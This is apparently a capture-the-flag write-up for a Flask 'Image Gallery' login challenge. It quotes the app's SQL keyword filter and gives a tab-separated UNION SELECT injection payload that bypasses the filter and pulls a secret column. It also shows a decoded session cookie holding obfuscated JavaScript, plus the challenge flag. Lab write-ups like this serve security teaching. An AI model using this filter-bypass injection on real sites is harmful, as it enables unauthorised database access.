





# Image Gallery
> View your photo gallery using our super Secure image gallery. we offer free 1 terabyte of storage of high-Quality images, showcased in a personalized custom aLbum.

## About the Challenge
We were given a website and a source code (You can download the source code [here](imagegal.zip)). This website only has 1 functionality which is login user



## How to Solve?
If we analyze the source code, it looks like the website is vulnerable to SQL injection but there are a lot of filter here

```python
@app.route("/login", methods=["POST", "GET"])
def login():
    if "logged_in" in session and session["logged_in"]:
        session.pop("logged_in", None)
        return redirect(url_for("login"))

    if request.method == "POST":
        username = request.form["username"]
        password = request.form["password"]
        loweruser = username.lower()
        lowerpass = password.lower()
        invalid_entries = invalid_entries = [
            "=", "<", ">", "+", "//", "|", ";", " ", " ", "'1", " 1", " true", "'true", " or", "'or", "/or", " and", "'and", "/and", "'like", " like", "/like", "'where", " where", "/where", "%00", "null", "admin'",
        ]
```

But we can bypass it using `tab` instead of `space`



But the flag is not found in the dashboard. If you analyze the sql file, there's a column called `secret`, and to get the secret value im using this payload

```
'	union	select	secret	from	login_details	where	password	like	"%"--
```



Ummm, the cookie value suddenly become so big. Decode it using `flask-unsign` and we got this base64 value

```
eyJmbGFnIjoibml0ZXtpc190aGlzX3RoZV9mbGFnP30iLCJuYW1lIjoiVHJ5IGFuZCBnZXQgdGhlIGZsYWchIiwiZGVzYyI6IihmdW5jdGlvbihfMHhkOGZiZGIsXzB4MjQyNDgzKXt2YXIgXzB4NTVkYzdjPV8weDNlN2QsXzB4M2FlZmExPV8weGQ4ZmJkYigpO3doaWxlKCEhW10pe3RyeXt2YXIgXzB4M2Q3ODQ3PS1wYXJzZUludChfMHg1NWRjN2MoMHg5MikpLzB4MSoocGFyc2VJbnQoXzB4NTVkYzdjKDB4OTYpKS8weDIpK3BhcnNlSW50KF8weDU1ZGM3YygweDhlKSkvMHgzKigtcGFyc2VJbnQoXzB4NTVkYzdjKDB4OTMpKS8weDQpK3BhcnNlSW50KF8weDU1ZGM3YygweDk0KSkvMHg1K3BhcnNlSW50KF8weDU1ZGM3YygweDhmKSkvMHg2KigtcGFyc2VJbnQoXzB4NTVkYzdjKDB4OGIpKS8weDcpK3BhcnNlSW50KF8weDU1ZGM3YygweDkxKSkvMHg4Ky1wYXJzZUludChfMHg1NWRjN2MoMHg4YykpLzB4OSoocGFyc2VJbnQoXzB4NTVkYzdjKDB4OTUpKS8weGEpK3BhcnNlSW50KF8weDU1ZGM3YygweDkwKSkvMHhiO2lmKF8weDNkNzg0Nz09PV8weDI0MjQ4MylicmVhaztlbHNlIF8weDNhZWZhMVsncHVzaCddKF8weDNhZWZhMVsnc2hpZnQnXSgpKTt9Y2F0Y2goXzB4NGIyODljKXtfMHgzYWVmYTFbJ3B1c2gnXShfMHgzYWVmYTFbJ3NoaWZ0J10oKSk7fX19KF8weDQ0ZTcsMHhiNGJmMSkpO2Z1bmN0aW9uIF8weDNlN2QoXzB4M2JjYTMzLF8weDIxZjY0OCl7dmFyIF8weDQ0ZTc3Yz1fMHg0NGU3KCk7cmV0dXJuIF8weDNlN2Q9ZnVuY3Rpb24oXzB4M2U3ZGU2LF8weDMxZmViYyl7XzB4M2U3ZGU2PV8weDNlN2RlNi0weDhiO3ZhciBfMHg1ZTU4NTA9XzB4NDRlNzdjW18weDNlN2RlNl07cmV0dXJuIF8weDVlNTg1MDt9LF8weDNlN2QoXzB4M2JjYTMzLF8weDIxZjY0OCk7fWZ1bmN0aW9uIHd1dF9pc190aGlzX25vdygpe3ZhciBfMHg1OTQ5NTY9XzB4M2U3ZDtjb25zb2xlWydsb2cnXShfMHg1OTQ5NTYoMHg4ZCkpO31mdW5jdGlvbiBfMHg0NGU3KCl7dmFyIF8weDQ1ZDA4ZT1bJzlsbENnTm8nLCdhSFIwY0hNNkx5OW5hWFJvZFdJdVkyOXRMMmx6YUdGdUxYTjFjbUZ1WVM5amFHRnNiR1Z1WjJVdicsJzkyNG9mb3BKQicsJzE1NzA5OHR0REd2YScsJzI0MjU3Mjc3YW1kc2RZJywnNDY1NzY4MFdhaWNKRCcsJzh4SHRxc2QnLCcxNjI1Mld6cWZjcycsJzExOTg3OTVlVUFmSUQnLCc0MDI1MTEwR1hveWJNJywnNzk2ODJRU254c1MnLCc4NHhCSnNzdyddO18weDQ0ZTc9ZnVuY3Rpb24oKXtyZXR1cm4gXzB4NDVkMDhlO307cmV0dXJuIF8weDQ0ZTcoKTt9IiwiaWF0IjoxNTE2MjM5MDIyfQ
```

Decode it and you will got a obfuscated javascript code



Deobfuscate the JS, and there's a github link that contains the flag



```
nite{k33ping_up_w1th_+he_time5}
```